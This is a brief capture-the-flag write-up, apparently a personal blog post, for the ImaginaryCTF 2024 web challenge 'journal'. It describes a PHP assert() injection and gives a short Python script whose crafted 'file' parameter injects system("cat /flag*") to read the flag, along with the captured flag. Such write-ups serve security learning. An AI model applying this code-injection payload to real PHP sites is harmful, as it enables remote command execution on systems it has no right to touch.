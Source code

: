 ```yaml
---
layout: post
title:  "journal - ImaginaryCTF 2024"
date:   2024-07-21 00:00:00 -0400
---
```


https://ctftime.org/event/2396

# journal (web)

one file php challenge

## Solution

At first i thought there was some include path stuff.
But after trying every byte there were some interesting messages about assert.
And its apparently well known:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp

```python
import requests

payload = "file1.txt' and die(system(\"cat /flag*\")) or '"
res = requests.get("http://journal.chal.imaginaryctf.org/", params={"file":payload})
print(f"DEBUGPRINT[1]: go.py:14: res.text={res.text}")
```

## Flag
`ictf{assertion_failed_e3106922feb13b10}`

shafouz 2024/07/21

